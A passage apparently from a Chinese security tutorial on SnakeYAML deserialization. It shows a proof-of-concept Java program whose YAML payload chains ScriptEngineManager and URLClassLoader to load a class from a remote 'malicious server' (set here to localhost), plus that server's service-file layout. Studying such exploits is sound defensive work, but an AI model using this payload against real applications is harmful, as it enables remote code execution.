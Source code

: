 ```java

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

反序列化

```java
import org.yaml.snakeyaml.Yaml;

public class SEM_cmd {
    public static void main(String[] args){
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1/:8080\"]]]]";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}

```

恶意服务器

> │  SEM.class
> │
> ├─META-INF
> │  └─services
> │          javax.script.ScriptEngineFactory

这里也可以打包成jar文件,运行SEM_cmd

![image-20211006182510270](Yaml/image-20211006182510270.png)
